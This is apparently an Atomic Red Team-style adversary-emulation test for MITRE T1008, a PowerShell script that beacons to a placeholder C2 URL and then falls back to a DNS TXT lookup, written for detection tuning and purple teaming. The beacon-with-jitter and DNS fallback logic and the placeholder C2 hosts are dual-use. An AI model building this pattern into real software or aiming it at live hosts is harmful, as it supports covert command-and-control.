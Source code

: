 # Atomic Test: Simulated Fallback Channel (T1008)

**Technique ID**: T1008  
**Display Name**: Simulated Fallback Channel  
**Platforms**: Windows  
**Description**:  
Simulates a fallback communication behavior where a system attempts to reach a primary C2 server over HTTPS. Upon repeated failure, it falls back to a DNS query (e.g., TXT record)—mimicking adversarial behavior observed in fallback channels.

---

## Atomic Test Details

**Test Name**: Simulated Fallback from HTTPS to DNS  
**GUID**: a1b2c3d4-e5f6-7890-abcd-1234567890ef  
**Elevation Required**: False  

### Executor
```powershell
# Fallback Channel Simulation - See $env:TEMP\FallbackTest_Log.txt for output
$primaryC2 = "https://primary-c2.example.com"
$fallbackC2 = "dns://fallback-c2.example.com"
$logPath = "$env:TEMP\FallbackTest_Log.txt"

function Log-Message {
  param ($message)
  $timestamp = Get-Date -Format "yyyy-MM-dd HH:mm:ss"
  $entry = "[$timestamp] $message"
  $entry | Out-File -FilePath $logPath -Append
  Write-Host $entry
}

function Test-C2Channel {
  param ($url)
  try {
    $response = Invoke-WebRequest -Uri $url -UseBasicParsing -TimeoutSec 5
    if ($response.StatusCode -eq 200) {
      Log-Message "Connected to C2: $url"
      return $true
    }
  } catch {
    Log-Message "Failed to connect to: $url"
    return $false
  }
}

Log-Message "=== Starting Primary C2 Channel Test ==="
$maxAttempts = 3
$success = $false

for ($i = 1; $i -le $maxAttempts; $i++) {
  Log-Message "Attempt $i to reach Primary C2..."
  if (Test-C2Channel -url $primaryC2) {
    $success = $true
    break
  }
  Start-Sleep -Seconds (Get-Random -Minimum 3 -Maximum 7)
}

if (-not $success) {
  Log-Message "Primary C2 failed after $maxAttempts attempts. Initiating fallback..."
  try {
    $dnsResult = nslookup -type=txt fallback-c2.example.com
    Log-Message "DNS Fallback Response:`n$dnsResult"
  } catch {
    Log-Message "Fallback channel DNS query failed."
  }
}

Log-Message "=== Test Complete. Cleaning up artifacts ==="
```

### Cleanup
```powershell
Remove-Item "$env:TEMP\FallbackTest_Log.txt" -Force -ErrorAction SilentlyContinue
```

---

## Artifacts
- **Log File**: `$env:TEMP\FallbackTest_Log.txt`

## Notes
- All domains used are placeholders. Replace with lab-controlled infrastructure.
- Designed for safe simulation in SOC detection tuning and purple teaming scenarios.

---

**Version**: 1.0  
**Author**: Chris (a.k.a. GITSGHOST 😎)

